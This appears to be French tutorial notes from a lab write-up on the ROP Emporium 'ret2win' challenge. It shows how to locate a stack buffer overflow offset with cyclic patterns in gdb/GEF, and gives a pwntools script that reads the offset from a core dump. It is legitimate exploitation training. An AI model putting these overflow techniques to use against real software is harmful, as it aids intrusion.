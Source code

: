 ### cyclic codes usage

Traditionnelement, l'offet d'un débordement peut être évalué avec un message  cyclique.

Sous gdb avec GEF :

``` sh
gef➤  r
Starting program: /home/jce/w/ropemporium/x64/01_ret2win/ret2win
[*] Failed to find objfile or not a valid file format: [Errno 2] Aucun fichier ou dossier de ce type: 'system-supplied DSO at 0x7ffff7fd0000'
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaa
Thank you!
Program received signal SIGSEGV, Segmentation fault.
```

Au plantage les registes contiennent :
``` sh
$rax   : 0xb
$rbx   : 0x0
$rcx   : 0x007ffff7eca473  →  0x5577fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x007fffffffe158  →  0x6161616161616166 ("faaaaaaa"?)
$rbp   : 0x6161616161616165 ("eaaaaaaa"?)
```

En pariculier RSP contient 0x6161616161616166

``` sh
gef➤  pattern search $rsp
[+] Searching for '$rsp'
[+] Found at offset 40 (little-endian search) likely
[+] Found at offset 33 (big-endian search)
```

### Automatisation python

``` Python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:

from pwn import *
import os

# Set up pwntools for the correct architecture
elf = context.binary = ELF('ret2win')
io = process([elf.path])
# Envoi d'un code cyclique de taille 80
io.sendline(cyclic(0x50))
io.wait()

# identification d'un fichier core
core = io.corefile
# Recuperation de la valeur contenue dans RSP au moment du plantage
rsp = core.rsp
pattern = core.read(rsp, 4)
# Identification de l'offsec correspondant dans le code
offset = cyclic_find(pattern)
info(f"pattern     = {pattern.decode()}")
```